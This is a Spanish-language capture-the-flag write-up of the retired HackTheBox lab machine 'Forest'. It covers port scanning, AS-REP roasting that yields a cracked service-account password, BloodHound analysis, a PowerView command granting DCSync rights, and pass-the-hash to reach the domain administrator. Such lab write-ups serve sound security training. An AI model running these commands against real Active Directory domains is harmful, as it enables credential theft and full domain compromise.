

# Descripción

- **Nivel:** Fácil (Intermedia por el pivesc). 
- **Temas a tratar:** Enumeración, Windows, Active Directory, AS-REP Roasting, DCSync.
- **OS:** Windows.
- **Plataforma:** [HackTheBox](https://app.hackthebox.com/machines/212)
- **Fecha de retiro:** 21/03/2020
- **IP victima:** 10.10.10.161
- **IP atacante:** 10.10.14.10
# Enumeración
Empezamos enumerando todos los puertos bajo el protocolo TCP.
```
Not shown: 65511 closed tcp ports (reset)
PORT      STATE SERVICE          REASON
53/tcp    open  domain           syn-ack ttl 127
88/tcp    open  kerberos-sec     syn-ack ttl 127
135/tcp   open  msrpc            syn-ack ttl 127
139/tcp   open  netbios-ssn      syn-ack ttl 127
389/tcp   open  ldap             syn-ack ttl 127
445/tcp   open  microsoft-ds     syn-ack ttl 127
464/tcp   open  kpasswd5         syn-ack ttl 127
593/tcp   open  http-rpc-epmap   syn-ack ttl 127
636/tcp   open  ldapssl          syn-ack ttl 127
3268/tcp  open  globalcatLDAP    syn-ack ttl 127
3269/tcp  open  globalcatLDAPssl syn-ack ttl 127
5985/tcp  open  wsman            syn-ack ttl 127
9389/tcp  open  adws             syn-ack ttl 127
47001/tcp open  winrm            syn-ack ttl 127
49664/tcp open  unknown          syn-ack ttl 127
49665/tcp open  unknown          syn-ack ttl 127
49666/tcp open  unknown          syn-ack ttl 127
49667/tcp open  unknown          syn-ack ttl 127
49671/tcp open  unknown          syn-ack ttl 127
49676/tcp open  unknown          syn-ack ttl 127
49677/tcp open  unknown          syn-ack ttl 127
49684/tcp open  unknown          syn-ack ttl 127
49706/tcp open  unknown          syn-ack ttl 127
49957/tcp open  unknown          syn-ack ttl 127
```
## Puertos
```
Nmap scan report for local.htb (10.10.10.161)
Host is up (0.16s latency).

PORT      STATE  SERVICE      VERSION
53/tcp    open   domain       Simple DNS Plus
88/tcp    open   kerberos-sec Microsoft Windows Kerberos (server time: 2025-02-09 20:58:58Z)
135/tcp   open   msrpc        Microsoft Windows RPC
139/tcp   open   netbios-ssn  Microsoft Windows netbios-ssn
389/tcp   open   ldap         Microsoft Windows Active Directory LDAP (Domain: htb.local, Site: Default-First-Site-Name)
445/tcp   open   microsoft-ds Windows Server 2016 Standard 14393 microsoft-ds (workgroup: HTB)
464/tcp   open   kpasswd5?
593/tcp   open   ncacn_http   Microsoft Windows RPC over HTTP 1.0
636/tcp   open   tcpwrapped
3268/tcp  open   ldap         Microsoft Windows Active Directory LDAP (Domain: htb.local, Site: Default-First-Site-Name)
3269/tcp  open   tcpwrapped
5985/tcp  open   http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp  open   mc-nmf       .NET Message Framing
47001/tcp open   http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
49664/tcp open   msrpc        Microsoft Windows RPC
49665/tcp open   msrpc        Microsoft Windows RPC
49666/tcp open   msrpc        Microsoft Windows RPC
49667/tcp open   msrpc        Microsoft Windows RPC
49671/tcp open   msrpc        Microsoft Windows RPC
49676/tcp open   ncacn_http   Microsoft Windows RPC over HTTP 1.0
49677/tcp open   msrpc        Microsoft Windows RPC
49684/tcp open   msrpc        Microsoft Windows RPC
49703/tcp closed unknown
49973/tcp closed unknown
Service Info: Host: FOREST; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
|_clock-skew: mean: 2h46m50s, deviation: 4h37m10s, median: 6m48s
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: required
| smb-os-discovery: 
|   OS: Windows Server 2016 Standard 14393 (Windows Server 2016 Standard 6.3)
|   Computer name: FOREST
|   NetBIOS computer name: FOREST\x00
|   Domain name: htb.local
|   Forest name: htb.local
|   FQDN: FOREST.htb.local
|_  System time: 2025-02-09T12:59:53-08:00
| smb2-time: 
|   date: 2025-02-09T20:59:50
|_  start_date: 2025-02-09T20:19:15

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 73.77 seconds
```
Con esto tenemos información importante, primero que la maquina es un sistema Windows y se encuentra bajo dominio *'htb.local'* así que esto nos indica que estamos posiblemente enfrentándonos a una maquina de Active Directory.
### Verificando Información de Dominio
Utilizando la herramienta *NetExec* podemos validar esta información sobre los puertos 53 (DNS) y 139 (NetBios).


Analizando la enumeración y viendo que nos enfrentamos a una maquina de *AD*, así que con esto nos lanzamos directamente a revisar la documentación de *NetExec* para ver que podemos enumerar, ya que contamos con 2 principales protocolos *SMB* y*LDAP* . Para esto recomiendo leer la wiki de *NetExec* [Enumerate Null Sessions SMB](https://www.netexec.wiki/smb-protocol/enumeration/enumerate-null-sessions) y [Enumerate Users LDAP](https://www.netexec.wiki/ldap-protocol/enumerate-users).
# Foothold
### Enumeración de usuarios
Con el comando *nxc smb $Target -u ''  -p '' --users*  nos proporciona la siguiente lista de usuarios:

Tambien podremos obtener una lista bajo el protocolo *LDAP* pero para esta maquina esto nos es suficiente. (Tambien existen otras herramientas, en este caso voy a evitar utilizar herramientas que generen demasiado ruido como *Enum4linux-ng*).
Todos estas líneas las pasamos a un archivo y ejecutamos el siguiente comando para tener unas lista limpia con los nombres de usuario (solo funciona para el Output de *NetExec*):
```bash
awk '/-Username-/ {flag=1; next} /Enumerated/ {flag=0} flag {print $5}' nxcOutput.txt > users
```
# Ataque AS-REP Roasting
Para entender como funciona este ataque recomiendo leer el siguiente articulo [Understanding AS-REP Roasting Attacks](https://bloodstiller.com/articles/understandingasreproasting/).
Ya con el ataque entendido, procedemos a realizarlo sobre esta maquina, una cosa a entender es que para realizar este ataque no es necesario tener una lista de nombres como anteriormente la obtuvimos.

```bash
# Para el ataque sin usuarios utilizamos el siguiente comando
impacket-GetNPUsers -dc-ip $Target -request 'htb.local/' 
```
Ahora tenemos el hash del usuario *svc-alfresco* y podemos crackearlo con hashcat para tener la contraseña en texto plano que es *s3rvice*.
# Escalada de privilegios
Con el usuario y la contraseña obtenidos podemos tener acceso a la maquina con *evil-winrm*.

Como estamos en un equipo con directorio activo podemos proceder a utilizar *BloodHound* para obtener información relevante del dominio.
> [!NOTE]
> Para esto podemos utilizar SharpHound.exe, SharpHound.ps1, Bloodhound-python, entre otros; no me voy a centrar en cual ejecutar, en mi caso utilice SharpHound.exe y enviándome el *.zip* generado con *Evil-WinRM*.

## Analizando BloodHound
Primero que nada colocamos al usuario *svc-alfresco* como *owned*.

Analizando los grupos anidados visualizamos que estamos dentro del grupo "Account Operator" lo que significa que podemos crear, modificar cuentas y agregar usuarios a grupos (**Con excepción de grupos privilegiados, como Domain Admins, Enterprise Admins, entre otros**).
[Ejemplos de como abusar este privilegio](https://github.com/Jean-Francois-C/Windows-Penetration-Testing/blob/master/Privilege%20escalation%20techniques%20(examples)/Domain%20Privesc%20-%20Abusing%20'Account%20Operators'%20privileges)

Ahora bien analizando con la opción *Find Shortest Paths to Domain Admins*, nos encontramos un grupo con el privilegio *WriteDacl*.

*BloodHound* nos proporciona una pista sobre como podemos abusar de este privilegio:

Entonces para escalar privilegios tenemos lo siguiente:
1. Podemos crear usuarios y agregarlos a grupos.
2. Con un usuario dentro del grupo *Exange Windows Permissions* se puede realizar un ataque *[DCSync](https://book.hacktricks.wiki/en/windows-hardening/active-directory-methodology/dcsync.html)* otorgando los privilegios necesarios a dicho usuario.
## Crear usuario y agregarlo al grupo
Podemos intentar esto mismo bajo el mismo usuario pero para evitar cualquier problema lo realizamos desde un usuario nuevo.

> [!NOTE]
> No olvidemos agregar este usuario al grupo *"Remote Management Users"*  para acceder via WinRM, recordar que no podemos conectarnos via RDP ya que el puerto 3389 esta cerrado.


Ya con el acceso y los permisos establecidos podemos ver los comandos que nos otorga *BloodHound* (muchos comandos otorgados por esta herramienta pueden fallar así que hay que estar preparados para pasar un rato en google buscando como hacer que funcionen); para poder asignar los permisos vamos a requerir la herramienta [PowerView](https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1).

Ya con la herramienta en el equipo la procedemos a importar y procedemos a otorgarnos los permisos para realizar el ataque *DCSync*.

```Powershell
$SecPassword = ConvertTo-SecureString 'secret.' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('htb\fenixia', $SecPassword)
Add-DomainObjectAcl -PrincipalIdentity fenixia -Rights DCSync
```
> [!NOTE]
> Aquí cambie algunas partes del comando que nos proporcionaba BloodHound debido a que una vez que ejecutaba el ultimo comando se congelaba la sesión de *Evil-WinRM* y no se efectuaba algún cambio en los permisos bajo el usuario *"fenixia"*.
## Ataque DCSync
Ya con los permisos establecidos podemos ejecutar el ataque *DCSync*, para esto se utiliza la herramienta *secretsdump* de *impacket* desde nuestra maquina atacante.

Ya con el hash del usuario *Administator* podemos ejecutar un [Pass The Hash](https://www.crowdstrike.com/en-us/cybersecurity-101/cyberattacks/pass-the-hash-attack/) con *Evil-WinRM*:


___
### Happy Hacking!
